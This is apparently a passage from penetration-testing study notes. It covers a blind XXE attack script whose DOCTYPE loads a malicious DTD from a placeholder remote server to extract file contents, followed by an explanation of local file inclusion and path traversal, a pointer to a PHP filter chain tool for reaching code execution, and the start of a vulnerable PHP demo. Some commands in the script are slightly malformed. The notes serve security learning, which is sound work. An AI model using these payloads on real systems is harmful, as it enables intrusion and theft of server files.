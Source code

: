 ```Bash

PID=$!

sleep 1; echo

curl -s X POST "http://localhost:5000/process.php" -d '<?xml version="1.0" encoding=UTF-8?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://<ip_remote_server>/malicious.dtd"> %xxe;]>
<root><name>test</name><email>test@test.com</email><password>test123</password></root>' &>/dev/null

cat response | grep -oP "/?file=\K[^.*\s]+" | base -d
kill -9 $PID
wait $PID 2>/dev/null

rm response 2>/dev/null
```

  

## Local File Inclusion (LFI)

Local File Inclusion is a vulnerability that occurs when a web-application does not validate properly the user inputs, allowing the attacker to access local files within the webserver.

  

In many cases, the attacker makes use of LFI abusing the inputs of the application. The parameters can be URLs or form fields. These are manipulated to include path to local files in the request. This technique is known as “**path traversal**” and it is often used with LFI.

  

In **path travesal** the attacker may use special or escape characters within the inputs.

  

To prevent this LFI attacks, it is important that the developers validate and filter adequately all the inputs.

  

Here is a tool that we will be using to abuse ‘**Filter Chains**’ and gain RCE.

• **PHP Filter Chain Generator**: [https://github.com/synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)

---

- Demo
    
    For the pourpouse of demonstration, we will be creating a simple php HTTP server.
    
    ![[Untitled 116.png]]
    
    This gets the query parameter filename, and stores whatever comes into the $filename variable to then be included.
    
    ![[Untitled 117.png]]
    
    Now, this is not sanitized, so we are trusting the user’s input. And that is a bad idea.
    